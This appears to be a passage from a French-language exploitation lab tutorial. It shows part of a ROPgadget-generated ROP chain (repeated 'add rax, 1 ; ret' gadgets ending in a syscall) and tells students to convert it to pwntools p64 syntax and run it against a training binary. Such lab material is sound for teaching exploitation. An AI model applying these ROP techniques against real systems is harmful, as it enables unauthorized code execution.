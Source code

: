 ```
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046c970) # add rax, 1 ; ret
p += pack('<Q', 0x000000000040120b) # syscall
```
---

### Exécuter la RopChain

Vous avez généré la ROPChain grâce à `ROPGadget`, et vous remarquez bien que la syntaxe est similaire à celle du fichier que nous vous avons fourni, vous êtes alors sur la bonne voie. 

Pour exécuter la ropchain, vous devez modifier le fichier `ropchain.py` et certains éléments de la ROPChain fournie par `ROPGadget`.

> Ajouter les lignes concaténant les instructions à `p`.

Dans le script que nous vous avons fourni, nous avons choisi d'utiliser `pwntools` plutôt que `pack`. La syntaxe sera donc un peu différente:

* Il vous faudra remplacer pour chaque ligne de concaténation: `pack('<Q', ` par `p64(` .  

> **TIP**: Vous pouvez utiliser les expression régulières `regex` avec vim pour aller plus vite ! 

<span style="color:red">L'expression régulière est : **:%s/pack('<Q',/p64(/g**</span>

Une fois ces modifications effectuées, vous n'avez plus qu'à exécuter le programme python et le tour est joué !

Pour confirmer que vous avez réussi l'exercice, comparez votre terminal avec l'image suivante :

![Résultat](res.png)


